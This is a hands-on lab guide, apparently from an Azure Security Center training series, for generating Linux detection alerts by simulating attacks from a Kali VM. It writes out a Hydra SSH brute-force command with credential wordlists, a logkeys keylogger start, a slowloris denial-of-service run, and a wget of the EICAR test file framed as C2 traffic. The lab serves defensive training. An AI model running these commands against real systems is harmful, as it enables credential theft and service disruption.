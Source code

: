 ﻿# 05 - Linux Detections
##### Estimated lab time: 25 minutes
*The following lab is based on the* <a href="https://gallery.technet.microsoft.com/Azure-Security-Center-0ac8a5ef" target="_blank">Linux Detections playbook</a> *written by Yuri Diogenes. This playbook provides a more comphrensive explanation than is covered in this lab*<br>

In this lab we will explore the new Linux detection's in ASC by executing attacks in a Kali Linux VM that you are going to deploy. You will connect to your deployed Linux VM (Linux-0) leveraging SSH. In case you don't have a SSH client installed, you can install the free edition of MobaXterm <a href="https://mobaxterm.mobatek.net/download.html" target="_blank">here</a>.<br>

#### 1 - Create a Kali Linux VM
***Note**: time to create the Kali Linux VM is approx 5 minutes. Make sure to add a port that enables you to connect.*
1. In the Azure portal, click on **Create a resource** and search for **Kali Linux** and **create** the VM

![alt text](https://raw.githubusercontent.com/yaniv-shasha/Azure-Security-Center-1/master/Labs/05%20-%20Linux%20Detections/Screenshots/kali_marketplace.png)

![alt text](https://raw.githubusercontent.com/yaniv-shasha/Azure-Security-Center-1/master/Labs/05%20-%20Linux%20Detections/Screenshots/kali_marketplace.png)


***Note**: you don't have to wait until the deployment is complete. Proceed with the next exercise*

#### 2 - Create Linux users 
1. Connect to your Linux VM (Linux-0) that you have deployed earlier (note: not the Kali VM), using your favorite SSH tool
2. Create 5 users with the names user1, user2, user3, user4, user5, by leveraging the following Linux command <br>
***Note**: Replace "userName" by user1, user2, etc.<br> Set the password to "mypassword1" for user1, "mypassword2" for user2, etc.*

```powershell
sudo adduser <userName>
```


#### 4 - Executing a brute force attack
1. Connect to the Kali Linux VM with SSH (ensure that your VM deployment in step 1 was successful)
2. Navigate to the folder **/usr/share/wordlists**
3. Upload the **<a href="https://raw.githubusercontent.com/yaniv-shasha/Azure-Security-Center-1/master/Labs/05%20-%20Linux%20Detections/Files/lab_users.txt" target="_blank">lab_users.txt</a>** and **<a href="https://raw.githubusercontent.com/yaniv-shasha/Azure-Security-Center-1/master/Labs/05%20-%20Linux%20Detections/Files/lab_pass.txt" target="_blank">lab_pass.txt</a>** files to this folder by executing:
```text
sudo wget https://raw.githubusercontent.com/yaniv-shasha/Azure-Security-Center-1/master/Labs/05%20-%20Linux%20Detections/Files/lab_users.txt
```
and
```text
sudo wget https://raw.githubusercontent.com/yaniv-shasha/Azure-Security-Center-1/master/Labs/05%20-%20Linux%20Detections/Files/lab_pass.txt
```
4. Copy the IP address from the Linux Victim VM that you have deployed earlier. We are going to brute force attack this VM
5.  Type the command below in your Kali VM, and replace "**IP**" with **yourLinuxVM** public IP address
```text
hydra -I -L lab_users.txt -P lab_pass.txt <IP> -t 4 ssh
```
6.  Wait until it finishes, and the result should show you the username and the password that was found

#### 5 - Simulate capturing credentials and other useful information
1.  Run the command below in the Linux Victim VM to simulate an attacker that is trying to start logkeys to set up the system to capture credentials and other useful information: 
```text
logkeys --start
```
***Note**:<br> Ignore the error message if you don't have logkeys installed. Security Center will detect this attack anyway*

#### 6 - Simulate an attack against a web server
Assuming that the attacker has already performed some internal recon using nmap, you are going to simulate an attack against a web server
1. Run the command below in the Linux Victim VM:
```text
perl slowloris.pl -dns server.contoso.com
```
***Note**:<br> Ignore the error message if you don't have this script on your system. Security Center will detect this attack anyway*

#### 7 - Command & Control (C2) simulation
Attackers usually will communicate with command and control (C2) to transfer data or to download more  malicious software.
For this example, you will download the EICAR malware test file using WGET for the IP address.  The commands that follows must be executed in the Linux Victim VM:<br><br>

1. First, obtain the IP address of the target:
```text
nslookup eicar.com 
```
2. Now replace the XXX.XXX.XXX.XXX on the command below with the IP obtained from nslookup: 
```text
wget http://XXX.XXX.XXX.XXX/download/eicar.com
```
***Note**:<br>  if you have issues download eicar.com, try download eicar.txt (same command line, just change the extension). Or alteratively, use this "wget http://213.211.198.58/download/eicar.txt"*

#### 8 - Review Security Center alerts
1. Navigate to the **Security Center>Security Alerts** blade (under Threat Protection)
2.  Organize the alerts by date by clicking on the Date column, and review the alerts that were generated during this lab, it should look similar like this:

![alt text](https://raw.githubusercontent.com/yaniv-shasha/Azure-Security-Center-1/master/Labs/05%20-%20Linux%20Detections/Screenshots/Security_incident_detected_Linux.png)

![alt text](https://raw.githubusercontent.com/yaniv-shasha/Azure-Security-Center-1/master/Labs/05%20-%20Linux%20Detections/Screenshots/Security_incident_detected_Linux2.png)

<br><br>
### Continue with the next lab
06 - Logic Apps integration, click <a href="https://github.com/yaniv-shasha/Azure-Security-Center-1/tree/master/Labs/06%20-%20Logic%20App%20integration" target="_blank">here</a>